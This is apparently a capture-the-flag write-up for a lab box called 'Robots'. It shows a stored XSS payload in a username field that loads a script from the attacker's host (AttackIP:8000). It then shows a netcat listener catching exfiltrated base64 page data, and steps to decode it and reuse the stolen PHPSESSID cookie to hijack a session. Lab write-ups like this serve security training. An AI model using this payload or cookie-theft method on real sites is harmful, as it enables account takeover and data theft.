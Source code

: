 <h4>Username</h4>

```bash
<script src="http://AttackIP:8000/xss.js"></script>
```

<h4>Password</h4>

```bash
:~/Robots# echo -n '<script src="http://AttackIP:8000/xss.js"></script>1111' | md5sum
82b.................................  -
```

<p>

- set up an http server<br>
- set up a listener<br>
- authenticate
</p>

<h4>HTTP server</h4>

```bash
:~/Robots# python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
TargetIP - - [17/Jul/2025 xx:xx:xx] "GET /xss.js HTTP/1.1" 200
```

<h4>Listener</h4>

```bash
:~/Robots# nc -nlvp AttackPort
Listening on 0.0.0.0 AttackPort
Connection received on AttackIP 59792
POST /exfil HTTP/1.1
Host: AttackIP:AttackPort
Connection: keep-alive
Content-Length: 99145
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) HeadlessChrome/127.0.6533.119 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Accept: */*
Origin: http://robots.thm
Referer: http://robots.thm/
Accept-Encoding: gzip, deflate

data=PCFET0NUWVBFIGh0bWwgUFVCTElDICItLy9XM0MvL ... PC90ZD48L3RyPgo8L3RhYmxlPgo8L2Rpdj48L2JvZHk+PC9odG1sPg==
```

<h4>decode</h4>

<p>
 
- decode <code>data</code> file from Base64<br>
- identify <code>HTTP_COOKIE</code> value<br>
- notice that using <code>inspect</code> in the web page registered the <code>PHPSESSID</code> did not change<br>
- substitute it by the <code>HTTP_COOKIE</code> decoded<br>
- reload<br>
- Kept </p>
